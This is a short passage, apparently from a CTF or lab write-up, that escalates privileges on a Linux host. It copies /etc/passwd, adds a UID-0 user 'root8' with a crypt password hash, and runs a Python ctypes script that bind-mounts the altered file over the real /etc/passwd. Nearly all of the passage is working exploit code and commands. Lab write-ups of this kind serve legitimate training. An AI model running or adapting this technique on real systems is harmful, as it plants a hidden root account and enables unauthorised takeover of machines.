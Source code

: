 we can't directly update the password in the **/etc/passwd** file, but we can perform a bind mount. Copy the /etc/passwd file to the current working directory (/home/armour) and make the changes in the root user password.

```bash
cd /home/armour
```

```bash
cp /etc/passwd .
```

```bash
vim passwd
```

```bash
root8:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash
```


```bash
vim exploit.py
```




- exploit.py
	- according to normal user
```python title:exploit.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/home/armour/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

```bash
chmod +x exploit.py
```

```bash
./exploit.py
```

or

```bash
python3 exploit.py
```

```bash
grep root8 /etc/passwd
```

___
